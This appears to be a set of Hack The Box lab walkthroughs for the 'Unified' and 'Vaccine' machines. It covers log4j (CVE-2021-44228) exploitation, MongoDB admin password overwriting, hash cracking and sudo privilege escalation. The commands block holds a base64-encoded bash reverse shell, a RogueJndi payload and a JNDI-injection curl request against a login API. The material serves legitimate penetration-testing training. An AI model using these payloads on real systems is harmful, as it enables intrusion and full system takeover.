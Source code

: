 
<script type="text/javascript"
  src="https://cdn.jsdelivr.net/npm/mermaid/dist/mermaid.min.js">
</script>

<script>
    mermaid.initialize({
        startOnLoad: true,
 	      theme: 'dark'
<!-- 	'themeVariables': { 'primaryColor': '#00FFFF00'}  -->
    });
</script>

## Mini-walkthroughs for Hack The Box! 

[Unified](https://app.hackthebox.com/starting-point/#unified)

<div class="mermaid">
graph LR

  subgraph Priv. Escalation
  1["Look for <br/> mongodb port"] --> 2["connect to default <br/> database ace"] --> 3["look for <br/> admin collection"] 
  4["mkpasswd -m sha-512"]--> 5["change admin </br> password"] --> 6["login with <br/> new password"] 
  6 --> 7["check site settings <br/> get root ssh password 🏳️"]

  3 --> 5
  end
  
  subgraph Exploit log4j
  a[Exploit log4j] --> b["install openjdk <br/> install Maven"] --> d
  a --> c[" git clone <br/> https://github.com/ <br/> veracode-research/rogue-jndi"] --> d["build <br> mvn package"] 
  a --> e[prepare bash shell] --> f["encode w. base 64"] 
  f --> g["Run the rogue server"]
  d --> g
  a --> h["start a listener <br/> nc -lvp 4444"] --> m["receive a conn. <br/> script /dev/null -c bash"] 
  g --> l["send the exploit:<br/>''${jndi:ldap://IP:1389/o=tomcat}''"] --> m
  end
  
  subgraph Scan
  A[nmap] --> B[8443 <br/> UniFi Network] 
  B --> D["log4j vulnerable <br/> CVE-2021-44228"]
  D --> E["param. remember <br/> Post /api/login"]
  E --> F["test with <br/> ${jndi:ldap://{IP}/whatever}"]
  F --> G["check for LDAP traffic <br/> tcpdump port 389"]
  A --> C[ssh] 
  end
</div>

Useful commands
```bash 
echo 'bash -c bash -i >&/dev/tcp/{IP}/{port} 0>&1' | base64

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" \
--hostname "{YOUR TUN0 IP ADDRESS}"

curl 'https://10.129.12.182:8443/api/login' \
-H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' \
-H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' \
--compressed \
-H 'Referer: https://10.129.12.182:8443/manage/account/login?redirect=%2Fmanage' \
-H 'Content-Type: application/json; charset=utf-8' \
-H 'Origin: https://10.129.12.182:8443' \
-H 'Connection: keep-alive' \
--data-raw '{"username":"test","password":"test","remember":"${jndi:ldap://10.10.14.118:1389/o=tomcat}","strict":true}' \
--insecure

mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"

mongo --port 27117 ace --eval 'db.admin.update({"_id":\
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'

```


[Vaccine](https://app.hackthebox.com/starting-point/#vaccine)

<div class="mermaid">
graph LR
    A[nmap] --> B[FTP]
    A --> C[http]
    A --> D[ssh]
    B --> E[get zip] --> F[zip2john] --> G[john] --> H([admin/pass]) 
    C --> I[login <br/> admin/pass] --> J["sqlmap --os-shell <br/> dashboard?search"] --> K[bash reverse shell] --> L["look in <br/> /var/www/html"] --> M([postgres/pass])
    D --> N[postgres/pass] --> P["sudo -l"] --> Q["sudo vi"] --> R[GTFOBins] --> S(["root 🏳️"])
</div>

